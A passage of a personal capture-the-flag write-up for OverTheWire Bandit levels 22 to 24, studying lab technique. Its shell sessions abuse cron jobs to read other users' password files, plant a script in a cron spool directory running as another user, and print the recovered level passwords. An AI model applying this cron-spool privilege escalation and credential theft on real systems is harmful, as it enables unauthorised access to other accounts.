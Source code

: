 ```

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:/etc/cron.d$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349 
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

## What I learned
How to read and understand shell scripts written by others, follow the logic of scripts that use variable substitution and hashing, and how to manually execute script logic to get desired results.

## References 
- cron and crontab for scheduled job management
- bash script analysis and execution

# Level 23 → Level 24
Create a shell script to leverage a cron job running as bandit24

## My solve
I checked the cron jobs in /etc/cron.d/ and found a script running as bandit24. The script executes any files in /var/spool/bandit24 owned by bandit23, then deletes them. 

I created a simple script to copy the bandit24 password to a readable location, made it executable, and placed it in the spool directory for the cron job to execute.


```run.sh file is

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.2f6Cw9390z/pass
```
```bash
bandit23@bandit:~$ ls
bandit23@bandit:~$ mktemp -d
/tmp/tmp.2f6Cw9390z
bandit23@bandit:~$ ^C
bandit23@bandit:~$ cd /tmp/tmp.2f6Cw9390z
bandit23@bandit:/tmp/tmp.2f6Cw9390z$ nano run.sh

Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.2f6Cw9390z$ touch pass
bandit23@bandit:/tmp/tmp.2f6Cw9390z$ chmod -R /tmp/tmp.2f6Cw9390z
chmod: missing operand after ‘/tmp/tmp.2f6Cw9390z’
Try 'chmod --help' for more information.
bandit23@bandit:/tmp/tmp.2f6Cw9390z$ chmod -R /tmp/tmp.2f6Cw9390z/
chmod: missing operand after ‘/tmp/tmp.2f6Cw9390z/’
Try 'chmod --help' for more information.
bandit23@bandit:/tmp/tmp.2f6Cw9390z$ chmod 777 -R /tmp/tmp.2f6Cw9390z/
bandit23@bandit:/tmp/tmp.2f6Cw9390z$ chmod +x run.sh
bandit23@bandit:/tmp/tmp.2f6Cw9390z$ cp run.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.2f6Cw9390z$ cat pass
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
